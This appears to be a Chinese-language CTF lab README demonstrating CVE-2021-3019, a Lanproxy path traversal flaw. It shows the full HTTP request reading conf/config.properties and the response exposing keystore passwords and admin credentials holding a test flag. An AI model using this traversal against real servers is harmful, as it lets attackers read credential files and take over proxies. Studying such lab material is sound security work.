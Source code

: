 # lanproxy_cve-2021-3019

根据 `CVE-2021-3019 Lanproxy 任意文件读取漏洞`  读取配置文件获取 FLAG

### Request

```http
GET /../../conf/config.properties HTTP/1.1
Host: 192.168.195.134:32805
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Response

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Server: LPS-0.1
Content-Length: 369

server.bind=0.0.0.0
server.port=4900

server.ssl.enable=true
server.ssl.bind=0.0.0.0
server.ssl.port=4993
server.ssl.jksPath=test.jks
server.ssl.keystorePassword=123456
server.ssl.keyManagerPassword=123456
server.ssl.needsclientAuth=false

config.server.bind=0.0.0.0
config.server.port=8090
config.admin.username=FLAG
config.admin.password=flag{GZCTF_dynamic_flag_test}
```


![获取flag](assets/获取flag.png)

